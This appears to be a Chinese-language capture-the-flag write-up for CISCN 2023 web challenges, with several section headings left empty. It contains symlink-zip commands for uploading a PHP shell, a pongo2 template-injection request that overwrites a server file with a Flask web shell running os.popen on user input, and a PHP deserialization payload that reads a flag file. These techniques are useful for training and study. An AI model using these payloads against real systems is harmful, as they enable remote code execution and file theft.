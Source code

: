 
# web
### unzip

上传一个指向 /var/www/html 的软连接 root.zip
```shell
ln -s /var/www/html root;zip -y root.zip root
```


上传一个指向 root/shell.php 的软连接
```shell
mkdir root;nano root/shell.php;zip -ry shell.zip root/
```

访问url+shell.php

### dumpit

访问url,得到提示

> use ?db=&table_2_query= or ?db=&table_2_dump= to view the tables! etc:?db=ctf&table_2_query=flag1

给的参数分两种

1. ?db=&table_2_query= 指定数据库和表查询,存在sql注入
2. ?db=&table_2_dump= 根据db和dump参数生成dumplog文档

sql注入发现没有flag

参数存在 `%00` 时会报错



猜测命令执行,使用 %0A换行绕过,执行多条命令

### BackendService

---

### go_session
#go 
#SSTI 

pongo2的ssti,语法与django一致,使用gin框架上传文件覆盖flask服务

```
{{c.SaveUploadedFile(c.FormFile("file"),"/app/server.py")}}
```

获取表单名为file的文件保存到/app/server.py这个路径
但是不能存在",因为有html编码
Context.HandlerName()

> HandlerName 返回主处理程序的名称。例如，如果处理程序是“handleGetUsers()”，此函数将返回“main.handleGetUsers”。
> 配合过滤器last获取到最后一个字符串
> 
> Context.Request.Referer()
> 返回header里的Referer的值
```
{{c.SaveUploadedFile(c.FormFile(c.HandlerName()|last),c.Request.Referer())}
```


构造一个上传表单
```http
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.HandlerName()|last),c.Request.Referer())}} HTTP/1.1
Host: node1.anna.nssctf.cn:28311
Referer: /app/server.py
Content-Length: 426
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.195.3.12:88
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8ALIn5Z2C3VlBqND
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Cookie: session-name=MTY4NTc5Mjc3OXxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXxLpnBBgvTJ3SvEgKjI7S0g36QPYe_S4TYV_epZAUggJA==
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.195.3.12:88/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary8ALIn5Z2C3VlBqND
Content-Disposition: form-data; name="n"; filename="1.py"
Content-Type: text/plain

from flask import *
import os
app = Flask(__name__)


@app.route('/')
def index():
    name = request.args['name']
    file=os.popen(name).read()
    return file


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
------WebKitFormBoundary8ALIn5Z2C3VlBqND--

```

### DeserBug
#java


### reading


### [CISCN 2023 华北]ez_date
#hash
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class date{
    public $a;
    public $b;
    public $file;
    public function __wakeup()
    {
        if(is_array($this->a)||is_array($this->b)){
            die('no array');
        }
        //弱比较  1与'1'比较
        if( ($this->a !== $this->b) && (md5($this->a) === md5($this->b)) && (sha1($this->a)=== sha1($this->b)) ){
            $content=date($this->file);
            $uuid=uniqid().'.txt';
            file_put_contents($uuid,$content);
            $data=preg_replace('/((\s)*(\n)+(\s)*)/i','',file_get_contents($uuid));
            echo file_get_contents($data);
        }
        else{
            die();
        }
    }
}

unserialize(base64_decode($_GET['code']));
```

```php
<?php  
class date{  
public $a;  
public $b;  
public $file;  
}  
$a=new date();  
$a->a=1;  
$a->b='1';  
$a->file='/f\l\a\g';  
echo base64_encode(serialize($a));  
?>
```

# reverse

# pwn

# crypto

# Misc


---
## *相关wp*




2023-05-27   12:58